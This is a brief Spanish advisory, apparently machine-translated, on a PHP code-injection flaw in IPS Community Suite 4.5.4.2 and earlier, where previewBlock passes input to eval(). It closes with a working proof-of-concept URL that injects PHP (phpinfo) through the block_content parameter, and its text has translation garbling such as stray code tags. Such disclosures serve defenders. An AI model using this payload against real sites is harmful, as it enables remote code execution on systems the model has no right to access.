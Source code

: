 <languages  />

Introducción
------------

Las versiones 4.5.4.2 y anteriores de IPS Community Suite tienen vulnerabilidades de inyección de código PHP. La vulnerabilidad existe porque el método ` IPS \ cms \ modules \ front \ pages \ _builder :: previewBlock () ` permite pasar contenido arbitrario a ` IPS \ _Theme :: runProcessFunction () </ code > Método, este método se utilizará para llamar a la función PHP <code> eval () `. Esto se puede utilizar para inyectar y ejecutar código PHP arbitrario. La explotación exitosa de esta vulnerabilidad requiere una cuenta (como un moderador o administrador) con permisos para administrar la barra lateral y habilitar la aplicación "cms".

POC
---

    http://[host]/[ips]/index.php?app=cms&module=pages&controller=builder&do=previewBlock&block_plugin=stats&block_template_use_how=copy&block_plugin_app=core&_sending=block_content&block_content=RCE%0ACONTENT;}}phpinfo();die;/*